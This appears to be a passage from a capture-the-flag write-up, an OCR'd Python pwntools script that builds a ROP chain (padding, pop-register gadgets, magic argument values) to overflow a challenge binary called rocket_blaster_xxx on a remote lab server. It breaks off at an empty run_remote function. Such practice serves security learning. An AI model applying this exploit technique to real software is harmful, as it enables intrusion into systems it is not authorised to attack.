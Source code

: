 Here's the final code:

```python
from pwn import *

LOCAL_FILE_PATH: str = "./rocket_blaster_xxx"
REMOTE_SERVER = "94.237.63.83"
REMOTE_PORT = 46473


def find_gadgets(binary_path):
    elf = ELF(binary_path)
    rop = ROP(elf)

    # Search for gadgets to set up RDI, RSI, and RDX registers
    pop_rdi = rop.find_gadget(['pop rdi', 'ret']).address
    pop_rsi = rop.find_gadget(['pop rsi', 'ret']).address
    pop_rdx = rop.find_gadget(['pop rdx', 'ret']).address
    open_plt = elf.plt['puts']
    return pop_rdi, pop_rsi, pop_rdx, open_plt

def pwn_rocket_blaster(proc):
    pop_rdi, pop_rsi, pop_rdx ,open_plt = find_gadgets(LOCAL_FILE_PATH)

    # Receive until the prompt
    proc.recvuntil(b">> ")

    # Addresses and arguments
    fill_ammo_addr = 0x4012f5
    arg1 = 0xdeadbeef
    arg2 = 0xdeadbabe
    arg3 = 0xdead1337

    print(open_plt)

    # Padding to reach the return address
    padding = b"A" * 40
    
    # Construct the payload
    payload = padding
    payload += p64(open_plt)
    payload += p64(pop_rdi) + p64(arg1)  # Set RDI
    payload += p64(pop_rsi) + p64(arg2)  # Set RSI
    payload += p64(pop_rdx) + p64(arg3)  # Set RDX
    payload += p64(fill_ammo_addr)  # Address of fill_ammo
    #payload = b"A" * 1000

    # Send the payload
    proc.sendline(payload)
    with open ('input2.txt', 'wb') as out:
        out.write(payload)


    print(f"Trying payload: {payload}")

    # Try to receive the response
    try:
        res = proc.recvall(timeout=2) 
        print(res.decode())
    except EOFError:
        print("Process exited before receiving all data.")


def run_remote():
```
